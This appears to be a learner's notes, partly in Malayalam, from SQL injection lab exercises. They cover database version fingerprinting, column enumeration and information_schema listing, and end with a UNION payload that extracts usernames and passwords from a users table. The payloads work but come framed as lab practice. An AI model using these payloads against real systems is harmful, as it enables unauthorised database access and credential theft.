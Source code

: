 				 --Microsoft, MySQL = @@version
			     --Oracle=SELECT banner FROM v$version   SELECT version FROM v$instance
				 --PostgreSQL= version()
-->For example, you could use a `UNION` attack with the following input:
        -->' UNION SELECT @@version--
		
        Lab-4.a(practical-querying-database-version-oracle):
-->On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
-->There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual.ivide dual maati v$version,v$instance idanam(ee tables in ninuman version kandupidikunath)
--> first we need to find how many columns are there
          -->'+UNION+SELECT+NULL,NULL+FROM+dual--     (2 column
second we need to find the column that contains string in it:
           -->'+UNION+SELECT+'josu','josu'+FROM+dual--
third we need to know the version of Database:
           -->'+UNION+SELECT+NULL,BANNER+FROM+v$version--                 OR
		   -->'+UNION+SELECT+BANNER,NULL+FROM+v$version--

       Lab-4.a(practical-querying-database-version-MySql,microsoft):
-->namuk ariyam microsoft,mysql inte verision nokunath -- @@verion
-->comment -     # or --
-->--> first we need to find how many columns are there
          -->'+ORDER+BY+2# HTTP/1.1a       
second we need to find the column that contains string in it:
           -->'+UNION+SELECT+'josu','josu'# HTTP/1.1
third we need to know the version of the database:
           -->'+UNION+SELECT+'josu',@@version# HTTP/1.1
		   
    lab-4.b(Theory)
#### Listing the contents of the database:
-->Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.
-->We can query `information_schema.tables` to list the tables in the database:                                 -->SELECT+*+FROM+information_schema.tables
-->You can then query `information_schema.columns` to list the columns in individual tables:
       -->SELECT * FROM information_schema.columns WHERE table_name = 'Users'
	   
    Lab-4.b(practical-Listing the database contents on non oracle databeses):
-->first ethra column und enn kandupidikanam:
      -->'+ORDER+BY+2--                      (randenam udn)
-->second which column contain text data:
       -->'+UNION+SELECT+'abc','def'--                (2 ilum aakum)
-->Database ile contents dumb chyunathin mumb ath eth DB aanen urapp varuthanam ennale baki queries athinanusarich chyan patoo.for eg:
    -->'+UNION+SELECT+version()s,NULL--          (so ivide postgrsql aan)
-->Use the following payload to retrieve the list of tables in the database:   
    -->'+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--
	  ivide tables kandethi athil ninum namuk venda table eduth athile column kandethunu.ee table_name engane kiti enal google->information_schema.tables postgresql column enn adich noki defualt aaya tables enthanen nokanam ok.
-->Find the name of the table containing user credentials.
-->Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
>'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--   
-->Find the names of the columns containing usernames and passwords.
-->Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    -->'+UNION+SELECT+username_abcdef,password_abcdef+FROM+users_abcdef--
ivide ninum admin,password kitum
